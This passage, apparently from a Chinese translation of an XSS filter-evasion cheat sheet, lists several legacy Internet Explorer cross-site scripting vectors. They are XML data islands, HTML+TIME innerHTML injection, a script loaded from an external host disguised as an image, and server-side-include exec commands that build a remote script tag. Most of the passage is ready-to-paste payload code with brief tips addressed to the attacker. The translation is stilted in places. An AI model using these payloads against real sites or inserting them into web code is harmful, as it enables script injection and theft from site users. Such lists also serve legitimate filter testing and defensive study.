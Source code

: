 * * *

## CDATA 混淆的 XML 数据岛

这个 xss 向量尽可以在 IE 和使用了 ie 渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult 在审计雅虎时发现。

```
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN> 
```

* * *

## 使用 XML 数据岛生成含有 javascript 代码的当前域 xml 文件

它是相同的同上面仅仅代替 XML 文件为当前域文件。你可以看到结果在下面。

* * *

## HTML+TIME 在 XML 中

它展示的 Grey Magic 是怎样攻击 Hotmail 和 Yahoo!的。它是仅仅可以工作在 ie 和使用了 ie 渲染引擎的 Netscape 8.1。并且这段代码需要放在 html 域 body 标签之间。

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML> 
```

* * *

## 简单的修改字符去绕过过滤器对 ".js"的过滤

你可以重命名你的 javascript 文件为一个图片作为 xss 向量

```
<SCRIPT SRC="http://ha.ckers.org/xss_jpg.jpg"></SCRIPT> 
```

* * *

## SSI (服务器端包含)

这需要 SSI 被安装在服务器端去使用这个 xss 向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无异味会有更加严重的问题存在。

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"--> 
```

* * *

## PHP
